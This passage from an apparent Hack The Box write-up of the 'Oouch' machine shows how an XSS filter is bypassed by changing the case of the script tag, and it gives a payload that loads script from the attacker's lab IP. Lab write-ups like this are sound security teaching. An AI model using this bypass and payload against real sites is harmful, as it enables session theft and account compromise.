 Submitting the payload, we get this webpage returned.

![XSS attack blocked](/assets/htb/Oouch/xss-blocked.png)

Seems like there is some sort of filter in place that detects XSS-payloads. Let us try to bypass the filter. In order to bypass the filter, we have to first find what words are exactly blocked. `script` is most likely the problem, so let us test if the word `script` alone triggers the filter. After a bit of testing, it shows that `<script>` triggers the filter. Let us try to bypass the `<script>` filter, by simply switching up the casing of the payload.

![XSS filter bypassed](/assets/htb/Oouch/xss-filter-bypassed.png)

Seems like changing the case results into a successful bypass. Let us retry our previous payload with these adaptations.

```js
<SCRIPT src='http://10.10.14.29/XSS'></SCRIPT>
```
